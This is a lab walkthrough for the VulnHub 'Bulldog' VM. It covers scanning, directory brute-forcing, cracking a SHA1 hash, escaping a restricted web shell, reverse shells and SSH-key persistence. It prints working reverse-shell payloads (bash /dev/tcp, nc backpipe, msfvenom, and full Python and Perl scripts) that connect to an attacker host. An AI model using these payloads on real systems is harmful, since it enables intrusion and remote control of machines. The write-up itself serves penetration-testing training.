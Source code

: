 <h2>Anjing Walkthrough</h2>

![alt text](https://metrouk2.files.wordpress.com/2017/05/175928800.jpg?w=420&h=212&crop=1 "Bulldog")

<p>Url : https://www.vulnhub.com/entry/bulldog-1,211/ </p>

<h4>POC</h4>

<ol>
<li><h4>Start yout VM</h4></li>
 
<li><h4>Information Gathering</h4></li>
<pre>
> Nmap : nmap -sSV 10.0.2.4
> ReconDog
</pre> 

<li><h4>Brouteforce directory : </h4></li>
 <pre>
> Dirb : dirb htpp://bulldog/ /usr/share/wordlists/dirb/common.txt
> Dirsearch.py : ./dirsearch.py -u http://bulldog/ -e txt
> etc..
</br>
<strong>Result</strong> 
[16:27:33] 301 -    0B  - /admin  ->  http://bulldog/admin/
[16:27:33] 302 -    0B  - /admin/  ->  http://bulldog/admin/login/?next=/admin/
[16:27:33] 302 -    0B  - /admin/?/login  ->  http://bulldog/admin/login/?next=/admin/%3F/login
[16:27:33] 301 -    0B  - /admin/login  ->  http://bulldog/admin/login/
[16:27:37] 301 -    0B  - /dev  ->  http://bulldog/dev/
[16:27:37] 200 -    3KB - /dev/
[16:27:42] 200 -    1KB - /robots.txt
</pre>
<li><h4>Brouteforce Password : </h4></li>
<pre>
<strong>Identifier Password hash :</strong> 
> hash-identifier
> hashid : hashid ddf45997a7e18a25ad5f5cf222da64814dd060d5
</br>
<strong>Online Cracked :</strong> 
> https://hashkiller.co.uk/
> https://crackstation.net/
</br>
<strong>Offline Using Worldlist Cracked :</strong> 
> Hashcat : hashcat -m 100 pass /usr/share/wordlists/rockyou.txt -n1 -u1 --force --show
> John the Ripper : john pass --format=Raw-SHA1 --wordlist=/usr/share/wordlists/rockyou.txt
> Hash Buster https://github.com/UltimateHackers/Hash-Buster
</pre>

<li><h4>Login to http://bulldog/admin/ </h4></li>

<li><h4>Go to http://bulldog/dev/shell/ </h4></li>
<pre>
<strong>Command Allowed :</strong>
> ifconfig
> ls
> echo
> pwd
> cat
> rm
</pre>
<p> You can execute command with </p>
<pre>
<strong>Command Escaping Restricted Shell :</strong>
> &
> &&
> |
> "" | bash
</br>
<strong>You can visit link :</strong>
> http://linuxshellaccount.blogspot.co.id/2008/05/restricted-accounts-and-vim-tricks-in.html
> https://pen-testing.sans.org/blog/pen-testing/2012/06/06/escaping-restricted-linux-shells
> http://www.softpanorama.org/Scripting/Shellorama/restricted_shell.shtml
> http://airnesstheman.blogspot.co.id/2011/05/breaking-out-of-jail-restricted-shell.html
</pre>

<li><h4>Reverse Shell </h4></li>
<pre>
<strong>Victim :</strong>
<strong>Bash</strong>
> echo "bash -i >& /dev/tcp/192.168.56.1/1337 0>&1" | bash
> /bin/bash -i > /dev/tcp/192.168.56.1/1337 0<&1 2>&1
</br>
<strong>Gaping Security Hole</strong>
> mknod backpipe p && nc 192.168.56.1 1337 0<backpipe | /bin/bash 1>backpipe
> mknod backpipe p && telnet 192.168.56.1 1337 0<backpipe | /bin/bash 1>backpipe
</br>
<strong>Using msfvenom Script (+x)</strong>
> msfvenom --platform linux -p linux/x86/shell_reverse_tcp LPORT=666 LHOST=192.168.56.1 -f elf -o msfvenomshell
> And tool https://github.com/g0tmi1k/mpc
</br>
<strong>Using Python Script</strong>
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.56.1",1337))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
------------------------------------
> ls | python file.py
</br>
<strong>Using Perl Script</strong>
use Socket;$i="192.168.56.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
</br>
<strong>Using Php Script</strong>
http://pentestmonkey.net/tools/web-shells/php-reverse-shell
</br>
<strong>Attacker</strong>
> nc -lvp 1337
</br>
<strong>You can visit link :</strong>
> http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
> https://highon.coffee/blog/reverse-shell-cheat-sheet/
> https://github.com/xapax/security/blob/master/reverse-shell.md
</br>
django@bulldog:/home/django/bulldog$ id
uid=1001(django) gid=1001(django) groups=1001(django),27(sudo)
</br>
I have try all method, but command execution no interactive shell, and i can try to change this method..
</br>
<strong>Get interactive shell</strong>
<strong>SSH Method</strong>
> ssh-keygen -t rsa (create keygen on local machine)
> find -iname authorized_keys (check file on victim machine)
> if no exist, can you create on victim machine :
> mkdir .ssh
> touch .ssh/authorized_keys
> ssh-copy-id django@192.168.56.3 (option 1 copy your key to victim machine) 
> echo "your key" > authorized_keys (option 2 copy your key to victim machine)
> ssh django@192.168.56.3 -p 23
> you have execute interactive shell
</pre>
<li><h4>Privilege Escalation </h4></li>
<pre>
<strong>I can try this method</strong>
> https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
> https://www.rebootuser.com/?p=1623
> https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py
> https://chryzsh.gitbooks.io/pentestbook/privilege_escalation_-_linux.html
> http://pentestmonkey.net/tools/audit/unix-privesc-check
> https://github.com/rebootuser/LinEnum
> https://github.com/AusJock/Privilege-Escalation
</br>
<strong>And remember check all process running</strong>
> https://www.cyberciti.biz/faq/show-all-running-processes-in-linux/
> service --status-all
</pre>
</br>
